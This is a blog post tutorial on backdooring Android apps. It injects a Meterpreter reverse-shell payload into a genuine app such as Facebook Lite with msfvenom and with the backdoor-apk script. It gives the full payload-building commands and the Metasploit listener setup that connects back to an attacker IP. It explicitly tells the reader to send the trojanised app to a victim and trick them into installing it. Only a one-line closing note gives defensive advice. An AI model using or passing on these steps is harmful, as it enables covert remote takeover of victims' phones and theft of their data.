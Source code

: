 ```yaml
---
layout: post
title: Injecting Backdoor in Android Application (APK)
---
```


Lets assuming that we have created an APK with reverse shell payload and somehow installed it on victim's phone, which upon execution would establish a direct connection to the victim's phone. 

Since the generated APK only contains the payload that doesn't do anything when clicked and even the size would be in KB's which looks very much suspicious and the victim would uninstall it immediately or doesn't even install it.

In order to make the app look legit, we would inject our meterperter reverse shell payload in genuine android apps like facebook, adobe reader, whatsapp. This way the app appears to be legit which the victim installs and gets what he expected... we get the shell..:-)



----

### Prerequisites:
<ul>
<li>In this article, we'd be using 64bit kali linux to build our backdoored APK. Before we start make sure below listed packages are being installed in the machine, if not execute below command from the terminal:
{% highlight python %}
apt-get install lib32stdc++6 lib32ncurses5 lib32z1
{% endhighlight %} </li>
<img src="{{ site.baseurl }}/public/android01.jpg">

<li>Apktool, this utility does come with kali linux if not check and update it. To install/update "apktool" following the instruction  <a href="https://ibotpeaches.github.io/Apktool/install/" target="_blank">@ibotpeaches</a> 
{% highlight python %}
apktool -v    #Check apktool version
{% endhighlight %} </li>
</ul>


----

### Ways to Inject an Android APK File

<div class="message">
Ther are different ways to inject our backdoor into an APK, we'll be using below listed utilities to build our malicious APK allowing an attacker to compromise victim's phone remotely
<ul>
<li>MSFvenom</li>
<li>Backdoor-APK</li>
</ul>
</div>

<strong> Injecting Payload with msfveom </strong>

Assuming we already have a downloaded android apk, we use it as a template to inject our reverse shell. Below command would allow us to inject the backdoor into original apk, which upon execution connects back to the IP specified within the payload. 

{% highlight python %}
msfvenom --platform android -x facebook_lite.apk -p android/meterpreter/reverse_tcp LHOST=192.168.11.187 LPORT=4444 -o facebook_lite_bc.apk
{% endhighlight %}
<img src="{{ site.baseurl }}/public/fblite01.jpg">


Now that we have our APK ready with the injected reverse shell payload, all you have to do is send the file to the victim and trick him to install the app.

<img src="{{ site.baseurl }}/public/f00.jpg">
<img src="{{ site.baseurl }}/public/f01.jpg">

On the other hand keep the listener ready for the incoming connection using metasploit exploit/multi/handler. Once the victim installs and opens the app we would get a shell spawned.


<img src="{{ site.baseurl }}/public/shell01.jpg">



----
<strong> Injecting Payload with "Backdoor-APK" </strong>

Another utility that can be used in backdooring an android app is "Backdoor-APK". Behind the scene, this utility uses "msfvenom" and does the same by automating the process making it much easier to inject the payload into android APK and can be downloaded from github repository.
{% highlight python %}
git clone https://github.com/dana-at-cp/backdoor-apk.git
{% endhighlight %}
<img src="{{ site.baseurl }}/public/bc01.jpg">



Having the downloaded Original APK and Backdoor-APK in same folder, execute the below command in the terminal which will prompt you to select the payload and details of the connect back IP and Port.
{% highlight python %}
./backdoor-apk.sh facebook_lite.apk
{% endhighlight %}
<img src="{{ site.baseurl }}/public/bc02.jpg">


Once the required details are been provided, utility start injecting the reverse shell payload within the APK.

<img src="{{ site.baseurl }}/public/bc03.jpg">

On the other hand start the listener for incoming connection using metasploit multi handler.
{% highlight python %}
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set lhost 192.168.11.187
set lport 4444
exploit
{% endhighlight %}

As expected we would have our final backdoored APK ready in "backdoor-apk -> original -> dist" folder, which we send to the victim and trick him to install it.

<img src="{{ site.baseurl }}/public/bc04.jpg">


Once the victim installs and opens the app we would receive a meterpreter session.

<img src="{{ site.baseurl }}/public/f02.jpg">
----


### Conclusion

Its is highly recommended to not to download and install apps from unknown sources and never enable the option "install from unkown sources" under "Setting -> Security".
Install proper antivirus and make sure you never download or click url's from unkown sources. 

----



